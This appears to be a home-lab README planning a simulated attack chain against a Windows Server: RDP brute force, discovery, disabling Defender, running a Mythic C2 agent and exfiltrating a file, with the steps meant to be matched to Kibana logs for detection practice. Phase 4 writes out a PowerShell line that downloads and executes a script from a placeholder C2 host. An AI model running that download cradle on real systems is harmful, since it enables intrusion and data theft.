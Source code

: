 
## Introduction

Goal: Create an attack diagram that outlines the sequence of actions taken to compromise a target Windows Server, establish a C2 connection, and exfiltrate data. The diagram will be used as a visual plan for simulating and analyzing the attack.

Tool: draw.io (for creating the diagram)

---

## Components of the Diagram

- **Attacker Laptop (Kali Linux)**
    
    - Color: Red
    - Role: Launch brute force and control the attack.
        
- **Windows Server (Target Machine)**
    
    - Role: System to be compromised via RDP brute force.
        
- **Mythic C2 Server**
    
    - Color: Red
    - Role: Command and control platform for managing the compromised machine.
        
- **Internet**
    
    - Role: Communication channel between attacker and target.
        
- **SSH Server (optional)**
    
    - Role: Potential future target.
        

---

## Attack Phases

### Phase 1: Initial Access

- Method: RDP brute force attack from attacker’s Kali Linux machine.
- Target: Windows Server.
- Goal: Gain successful authentication into the target system.

`event.code: 4625 (Failed) event.code: 4624 (Success)`

---

### Phase 2: Discovery

- After gaining access, the attacker runs basic reconnaissance commands to learn about the system:
    
    `whoami ipconfig net user net group`
    
- Goal: Identify user permissions, network configuration, and system information.

---

### Phase 3: Defense Evasion

- The attacker disables Windows Defender to bypass security controls.
- Command executed within the RDP session.
- Purpose: Prevent security tools from blocking the next steps.

---

### Phase 4: Execution

- Using PowerShell, the attacker downloads and executes the Mythic agent from the Mythic C2 server:
    
    `IEX (New-Object Net.WebClient).DownloadString('http://<C2_SERVER>/agent.ps1')`
    
- Goal: Install the agent and prepare for C2 communication.

---

### Phase 5: Command and Control (C2)

- The agent establishes a persistent connection back to the Mythic C2 server.
- The attacker now has remote command execution and monitoring capabilities on the target machine.

---

### Phase 6: Exfiltration

- The attacker simulates data theft by downloading a file (e.g., `password.txt`) from the target machine’s Documents folder through the C2 channel.
- This phase completes the full attack chain from initial access to data exfiltration.

---

## Diagram
![Uploading image.png…]()




---

## Final Attack Flow Summary

1. Attacker (Kali Linux) → Brute forces RDP credentials on Windows Server.
2. Attacker logs into Windows Server.
3. Attacker runs discovery commands to learn about the environment.
4. Attacker disables Windows Defender for evasion.
5. Attacker uses PowerShell to download and execute Mythic agent.
6. Mythic agent connects to C2 server.
7. Attacker downloads `password.txt` as simulated exfiltration.

---

## Outcome 

- This diagram serves as a structured attack plan for future red team simulations.
- The attack steps can later be correlated with log data in Kibana to analyze detection and response capabilities.

**Reference**
https://youtu.be/jv-qiugJGHg?si=ZhkVu0mDS1YYAhDu
